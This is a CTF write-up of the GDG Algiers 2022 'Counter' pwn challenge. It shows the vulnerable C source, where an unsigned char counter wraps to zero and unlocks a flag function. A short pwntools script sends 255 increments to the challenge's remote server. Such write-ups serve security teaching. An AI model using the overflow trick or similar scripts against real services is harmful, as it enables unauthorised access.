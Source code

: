 ```yaml
---
title: "GDG-2022 -- Counter"
date: 2022-10-12T14:01:30+01:00
draft: true
description: "Counter is a easy pwn gdg challange "
tags : ['gdgalgiers', 'c', 'very easy', 'pwn']
aliases: [/ctf/gdg/pwn/counter/]
---
```



## Preview
![](https://github.com/0xWerz/CTF-writeups/blob/main/GDG-Algiers-2022/pwn/counter/img/desc.png?raw=true)

### Source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <unistd.h>
#include <errno.h>

#define NUM_BUF_SIZE 24
#define STRTOUL_BASE 10

void flag(void);

void disable_buffering(void);
void input_str(char *msg, char *str, size_t size);
unsigned long get_num(char *msg);

void flag(void) {
    system("cat flag.txt");
}

int main(int argc, char *argv[])
{
    unsigned char counter = 1;

    disable_buffering();

    while (true) {
        printf("Counter: %d\n", counter);
        puts("1) ++");
        puts("2) --");
        puts("3) Flag");
        puts("0) Exit");

        switch (get_num("Choice: ")) {
            case 1:
                counter++;
                break;
            case 2:
                if (counter > 1) {
                    counter--;
                }
                break;
            case 3:
                if (counter == 0) {
                    flag();
                } else {
                    puts("No.");
                }
                break;
            case 0:
                puts("Bye!");
            default:
                fprintf(stderr, "Invalid option\n");
                break;
        }

        putchar('\n');
    }

    return EXIT_SUCCESS;
}

void disable_buffering(void)
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void input_str(char *msg, char *str, size_t size)
{
    ssize_t num_bytes;

    fputs(msg, stdout);
    num_bytes = read(STDIN_FILENO, str, size - 1);
    if (num_bytes == -1) {
        perror("read");
        exit(EXIT_FAILURE);
    } else {
        str[num_bytes] = '\0';
    }

    return;
}

unsigned long get_num(char *msg)
{
    char str[NUM_BUF_SIZE] = { '\0' };
    char *endptr = NULL;
    unsigned long num;

    input_str(msg, str, NUM_BUF_SIZE);
    num = strtoul(str, &endptr, STRTOUL_BASE);
    if (errno == ERANGE) {
        perror("strtoul");
        exit(EXIT_FAILURE);
    }

    return num;
}
```
## Walkthrough

We know that the the unsigned char typically has a range of [0 to 255] for [more](https://www.geeksforgeeks.org/what-happens-if-loop-runs-till-maximum-of-signed-and-unsigned-in-c/) - if we loop through  it will jump to the 0 and that's the goal. I'll set up a script automation for that.  


```python
from pwn import *

r = remote("pwn.chal.ctf.gdgalgiers.com","1402")

for i in range(255 ):
    r.sendlineafter(b'Choice:', '1')

r.interactive()
```

